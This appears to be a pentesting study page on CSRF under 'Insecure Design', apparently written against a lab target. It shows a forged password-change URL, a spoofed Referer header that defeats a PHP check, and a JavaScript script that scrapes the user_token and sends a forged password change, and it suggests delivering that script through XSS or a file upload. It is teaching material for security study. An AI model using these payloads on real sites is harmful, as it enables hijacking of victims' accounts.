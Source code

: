 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Insecure Design

Weaknesses in the architectural or design phase of software development that lead to security vulnerabilities. It means that the application lacks proper security controls or that the design itself is flawed. We can find some scenarios where this vulnerability is found:

## <mark style="color:blue;">Cross-Site Request Forgery</mark>

Also known as CSRF, exploits the trust a web application has in the user’s browser. Trick a website to perform unwanted actions on a web application where a user is authenticated. This allows to send requests from off the site that the server will consider valid.

We can find a typical example of this vulnerability as follows:

* A site shows information about actions related to specific users, and whose data should remain confidential

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Imagine we fill out a form to change the actual password of an account
#We change the password to $newpass
#We can see that the site processes the request and shows the data related to the action in the URL
http://$url/?password_new=$newpass&password_conf=$newpass&Change=Change

#As the session remains active even when closing the tab of the site, this will allow changes even from off the site
```
{% endcode %}

***

* In some cases, it will not work directly, so we can check the page code to see the conditions of the input.

{% tabs %}
{% tab title="Case 1" %}
Sometimes a validation could be done via request headers.

{% code title="Example source code" overflow="wrap" lineNumbers="true" %}
```php
...
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
...
```
{% endcode %}

In this case, we can modify our petition to assign the corresponding headers and bypass the validation.

{% code title="Modified pettion" overflow="wrap" lineNumbers="true" %}
```http
...
Referer: http://$UrlOfProperSite/
...
```
{% endcode %}
{% endtab %}

{% tab title="Case 2" %}
Sometimes a validation could be done via a token generated in every page refresh

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/?password_new=$newpass&password_conf=$newpass&token=$token
```
{% endcode %}

We can search for this information in the source code of the page to confirm

<pre class="language-html" data-title="index.html" data-overflow="wrap" data-line-numbers><code class="lang-html">...
<strong>&#x3C;input type='hidden' name='user_token' value='5a92a11e5ff6dc8e94ae2d469c615e0d' />
</strong>...
</code></pre>

We see the token in this case is named _user\_token._ Knowing this, we can try to catch the token generated for the user and resend the petition to be validated. For this purpose, we can use the following script:

{% code title="CSRF.js" overflow="wrap" lineNumbers="true" %}
```javascript
fetch("http://tcmserver:8001/vulnerabilities/csrf/")
  .then((response) => response.text())
  .then((text) => {
    const parser = new DOMParser();
    const htmlDocument = parser.parseFromString(text, "text/html");
    const csrfToken = Array.from(htmlDocument.querySelectorAll("input")).filter(
      (input) => input.name === "user_token"
    )[0].value;
    console.log(csrfToken);
    const newPass = "newpass";
    const url = `http://tcmserver:8001/vulnerabilities/csrf/?password_new=${newPass}&password_conf=${newPass}&Change=Change&user_token=${csrfToken}`;
    fetch(url);
    console.log("Password changed to: " + newPass);
  });
```
{% endcode %}

{% hint style="info" %}
This can be done directly from the browser console, via an XSS vulnerable part, or a file upload vulnerable part.
{% endhint %}

This will catch the token from the HTML of the site, show it to us, and immediately send another petition with this information to properly validate the changes.
{% endtab %}
{% endtabs %}
